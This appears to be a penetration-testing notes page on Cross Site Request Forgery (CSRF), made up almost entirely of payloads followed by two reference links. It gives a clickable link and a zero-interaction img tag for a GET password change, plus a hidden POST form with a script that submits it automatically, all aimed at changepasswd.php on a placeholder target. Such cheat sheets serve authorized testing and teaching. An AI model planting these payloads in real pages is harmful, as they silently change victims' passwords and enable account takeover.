 ```yaml
---
icon: globe-pointer
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: false
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Cross Site Request Forgery (CSRF)

## Payloads

### GET

```html
<!-- Requires user interaction -->
<a href="http://<target>/changepasswd.php?pass=pass">Click Me</a>

<!-- No user interaction required -->
<img src="http://<target>/changepasswd.php?pass=pass">
```

### POST

```html
<form id="form" action="http://<target>/changepasswd.php" method="POST">
 <input name="pass" type="hidden" value="pass" />
 <input type="submit" value="Submit" />
</form>

<!-- Auto submit -->
<script>
 document.getElementById("form").submit();
</script>
```

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection)\
[https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery](https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery)
